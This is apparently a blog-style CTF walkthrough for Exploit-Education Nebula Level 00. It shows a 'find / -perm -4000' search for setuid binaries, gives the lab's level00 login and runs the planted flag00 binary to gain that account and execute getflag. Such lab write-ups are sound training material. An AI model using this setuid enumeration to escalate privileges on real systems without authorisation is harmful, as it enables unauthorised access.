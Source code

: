 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 00"
date:   2019-08-13 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
---
```

### [Exploit Education Level 0](https://exploit.education/nebula/level-00   /)

## Challenge
This level requires you to find a Set User ID program that will run as the `flag00` account.You could also find this by carefully looking in top level directories in / for suspicious looking directories.

Alternatively, look at the find man page.  

To access this level, log in as `level00` with the password of `level00`.

## Solution
We have to use find to find a file with setuser id bit set
    
    
```
level00@nebula:~$ find / -perm -4000 2>/dev/null | less 
```
        
lets see what the parameters indicate
        
```
/               it asks find to look for files in root directory
-perm -4000     its is used to display all files with the setuserid set
2>/dev/null     gets rid of all error messages
```

```
level00@nebula:~$ find / -perm -4000 2>/dev/null | less
/bin/.../flag00
/bin/fusermount
/bin/mount
/bin/pis
/bin/ping6
/bin/su
/bin/umount
/sbin/mount.ecryptfs_private
/usr/bin/at
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
```

we can see a file named `flag00`. lets investigate 

```
level00@nebula:/$ cd /bin/.../
level00@nebula:/bin/...$ ls -la
total 8
drwxr-xr-x 2 root   root      29 2011-11-20 21:22 .
drwxr-xr-x 3 root   root    2728 2012-08-18 02:50 ..
-rwsr-x--- 1 flag00 level00 7358 2011-11-20 21:22 flag00
```

we can see that the `setuserid` bit is set for `flag00`. lets run it
```
level00@nebula:/bin/...$ ./flag00
Congrats, now run getflag to get your flag!
flag00@nebula:/bin/...$ getflag
You have successfully executed getflag on a target account
```

### Solved!